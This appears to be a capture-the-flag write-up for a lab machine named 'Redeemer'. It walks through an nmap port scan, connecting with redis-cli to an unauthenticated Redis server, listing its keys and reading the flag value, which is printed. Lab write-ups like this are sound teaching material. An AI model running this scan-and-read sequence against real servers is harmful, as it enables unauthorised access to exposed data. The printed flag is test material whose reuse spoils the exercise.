

# Redeemer

You can watch the resolution in video [here](https://youtu.be/MS4tawenbWw?si=5idMoyPPSrUenJnK)


## Which TCP port is open on the machine?

```
❯ nmap -p- --open --min-rate 5000 -sS -n -Pn 10.10.10.10

6379/tcp open  redis   syn-ack ttl 63
```

## Which service is running on the port that is open on the machine?

```
6379/tcp open  **redis**   syn-ack ttl 63
```

## What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database



## Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.

```
❯ apt install redis
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following additional packages will be installed:
  liblzf1 redis-server redis-tools
Suggested packages:
  ruby-redis
The following NEW packages will be installed:
  liblzf1 redis redis-server redis-tools
❯ redis-cli
```

## Which flag is used with the Redis command-line utility to specify the hostname?

```
❯ redis-cli --help
redis-cli 7.0.15

Usage: redis-cli [OPTIONS] [cmd [arg [arg ...]]]
  -h <hostname>      Server hostname (default: 127.0.0.1).
  -p <port>          Server port (default: 6379).
  -s <socket>        Server socket (overrides hostname and port).
  -a <password>      Password to use when connecting to the server.
                     You can also use the REDISCLI_AUTH environment
                     variable to pass this password more safely
                     (if both are used, this argument takes precedence).
  --user <username>  Used to send ACL style 'AUTH username pass'. Needs -a.
  --pass <password>  Alias of -a for consistency with the new --user option.
  --askpass          Force user to input password with mask from STDIN.
                     If this argument is used, '-a' and REDISCLI_AUTH
                     environment variable will be ignored.
  -u <uri>           Server URI.
  -r <repeat>        Execute specified command N times.
  -i <interval>      When -r is used, waits <interval> seconds per command.
                     It is possible to specify sub-second times like -i 0.1.
                     This interval is also used in --scan and --stat per cycle.
                     and in --bigkeys, --memkeys, and --hotkeys per 100 cycles.
  -n <db>            Database number.
  -2                 Start session in RESP2 protocol mode.
[SNIP]
```

## Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

```
❯ redis-cli -h 10.129.124.104
10.129.124.104:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
[SNIP]
```

## What is the version of the Redis server being used on the target machine?

```
redis_version:5.0.7
```

## Which command is used to select the desired database in Redis?

```
10.129.124.104:6379> INFO keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.129.124.104:6379> select 0
OK
```

## How many keys are present inside the database with index 0?

```
db0:keys=4
```

## Which command is used to obtain all the keys in a database?

```
10.129.124.104:6379> keys *
1) "temp"
2) "flag"
3) "numb"
4) "stor"
```

## Submit root flag

```
10.129.124.104:6379> keys *
1) "temp"
2) "flag"
3) "numb"
4) "stor"
10.129.124.104:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```